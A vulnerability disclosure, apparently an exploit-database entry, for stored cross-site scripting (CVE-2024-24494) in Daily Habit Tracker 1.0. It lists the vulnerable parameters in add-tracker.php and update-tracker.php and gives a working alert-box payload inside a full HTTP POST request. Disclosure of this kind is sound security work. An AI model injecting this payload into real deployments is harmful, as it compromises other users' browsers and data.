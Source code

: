 # Exploit Title: Daily Habit Tracker 1.0 - Stored Cross-Site Scripting (XSS)
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17118/daily-habit-tracker-using-php-and-mysql-source-code.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24494

### Stored Cross-Site Scripting (XSS):

> Stored Cross-Site Scripting (XSS) is a web security vulnerability where an attacker injects malicious scripts into a web application's database. The malicious script is saved on the server and later rendered in other users' browsers. When other users access the affected page, the stored script executes, potentially stealing data or compromising user security.

### Affected Components:

> add-tracker.php, update-tracker.php

Vulnerable parameters: 
- day 
- exercise 
- pray 
- read_book 
- vitamins 
- laundry 
- alcohol 
- meat

### Description:

> Multiple parameters within `Add Tracker` and `Update Tracker` requests are vulnerable to Stored Cross-Site Scripting. The application failed to sanitize user input while storing it to the database and reflecting back on the page.

## Proof of Concept:

The following payload `<script>alert('STORED_XSS')</script>` can be used in order to exploit the vulnerability.

Below is an example of a request demonstrating how a malicious payload can be stored within the `day` value:

```
POST /habit-tracker/endpoint/add-tracker.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 175
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/habit-tracker/home.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

date=1992-01-12&day=Tuesday%3Cscript%3Ealert%28%27STORED_XSS%27%29%3C%2Fscript%3E&exercise=Yes&pray=Yes&read_book=Yes&vitamins=Yes&laundry=Yes&alcohol=Yes&meat=Yes
```

![XSS Fired](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/xss.png?raw=true)

## Recommendations

When using this tracking system, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.